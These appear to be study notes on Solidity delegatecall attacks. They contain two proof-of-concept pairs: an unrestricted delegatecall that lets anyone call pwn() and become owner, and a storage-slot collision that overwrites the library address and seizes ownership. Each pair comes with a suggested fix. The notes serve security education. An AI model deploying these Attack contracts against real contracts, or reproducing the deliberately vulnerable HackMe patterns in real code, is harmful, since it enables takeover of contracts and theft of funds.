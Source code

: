 #loss-of-access

https://solidity-by-example.org/hacks/delegatecall/

If Alice deploys `Lib` & `HackMe` (passing address of `Lib` as constructor arg)
Attack could deploy `Attack` to call the `attack()` function which calls the `fallback()` of `HackMe`
The `delegatecall` is unrestricted, any caller can call arbitrary function of `Lib`, including `pwn()` (which anyone can call)
Solution: don't write `delegatecall` that allows arbitrary function calls or have unrestricted change owner function

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract Lib {
    address public owner;

    function pwn() public {
        owner = msg.sender;
    }
}

contract HackMe {
    address public owner;
    Lib public lib;

    constructor(Lib _lib) {
        owner = msg.sender;
        lib = Lib(_lib);
    }

    fallback() external payable {
        address(lib).delegatecall(msg.data);
    }
}

contract Attack {
    address public hackMe;

    constructor(address _hackMe) {
        hackMe = _hackMe;
    }

    function attack() public {
        hackMe.call(abi.encodeWithSignature("pwn()"));
    }
}

```


The second example is more interesting, it is vulnerable since `Lib` and `HackMe` are the same storage layout if `delegatecall` is used, but there is collision in storage variables declaration, attacker could easily change the `lib` variable by calling `doSomething()` that changes the value in slot 0

Solution: `HackMe` to use `eip1967` implementation to store `lib` and `owner` at another position that won't have collision to `Lib` (address of `Lib` stored at `keccak256('eip1967.proxy.implementation')) - 1)` etc)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract Lib {
    uint256 public someNumber;

    function doSomething(uint256 _num) public {
        someNumber = _num;
    }
}

contract HackMe {
    address public lib;
    address public owner;
    uint256 public someNumber;

    constructor(address _lib) {
        lib = _lib;
        owner = msg.sender;
    }

    function doSomething(uint256 _num) public {
        lib.delegatecall(abi.encodeWithSignature("doSomething(uint256)", _num));
    }
}

contract Attack {
    // Make sure the storage layout is the same as HackMe
    // This will allow us to correctly update the state variables
    address public lib;
    address public owner;
    uint256 public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // override address of lib
        hackMe.doSomething(uint256(uint160(address(this))));
        // pass any number as input, the function doSomething() below will
        // be called
        hackMe.doSomething(1);
    }

    // function signature must match HackMe.doSomething()
    function doSomething(uint256 _num) public {
        owner = msg.sender;
    }
}

```